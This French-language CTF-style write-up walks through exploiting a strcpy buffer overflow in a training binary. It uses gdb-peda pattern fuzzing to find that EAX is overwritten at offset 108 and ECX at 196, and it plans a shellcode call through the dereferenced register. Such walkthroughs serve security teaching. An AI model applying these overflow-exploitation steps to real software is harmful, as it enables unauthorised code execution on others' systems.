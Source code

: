 ## 3: Exploit

### A: Explication

> On sait qu'on va réécrire sur quelque chose a un moment au vu du strcpy d'un buffer non maîtrisé dans une string de taille 100
> Je propose que l'on fasse du fuzzing (recherche a tâtons) plutôt que du reverse engineering:

```shell
  # On va lancer un pattern qui fait segfault le programme pour voir sur quels registres on réécrit
  gdb-peda$ pattern create 200 pattern9
    Writing pattern of 200 chars to filename "pattern9"

  gdb-peda$ run $(cat pattern9)
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    # On voit que notre pattern a écrasé ces 3 registres.
    EAX: 0x6941414d ('MAAi')
    EBX: 0x804a078 ("MAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    ECX: 0x41794141 ('AAyA')
    [...]
    [-------------------------------------code-------------------------------------]
    # Le programme a crash sur le déréférencement de eax.
    # Normal, on a écrit n'importe quoi dedans
      0x8048677 <main+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
      0x804867c <main+136>:	mov    eax,DWORD PTR [esp+0x10]
      0x8048680 <main+140>:	mov    eax,DWORD PTR [eax]
    => 0x8048682 <main+142>:	mov    edx,DWORD PTR [eax]
      0x8048684 <main+144>:	mov    eax,DWORD PTR [esp+0x14]
      0x8048688 <main+148>:	mov    DWORD PTR [esp+0x4],eax
      0x804868c <main+152>:	mov    eax,DWORD PTR [esp+0x10]
      0x8048690 <main+156>:	mov    DWORD PTR [esp],eax
    [------------------------------------stack-------------------------------------]
    [...]
    [------------------------------------------------------------------------------]
    Stopped reason: SIGSEGV
    0x08048682 in main ()
  # Regardons nos offsets
  gdb-peda$ pattern search
    Registers contain pattern buffer:
    # On a reecrit sur eax au bout de 108 char. Super! C'est quand on le stock dans edx avant de le call que le programme segfault
    EAX+0 found at offset: 108
    # On a reecrit sur ecx au bout de 196 char.
    ECX+0 found at offset: 196
    [...]
```

* On a donc le contrôle de eax qui va être call (après avoir été copié dans edx)
* On n'a pas d'instructions qui lancent un shell donc on va devoir utiliser un shellcode que l'on va appeler grâce à la surcharge de eax.
* On aura une petite particularité quand à la position du shellcode puisque eax est déréférencé 2 fois pour être mis dans edx.
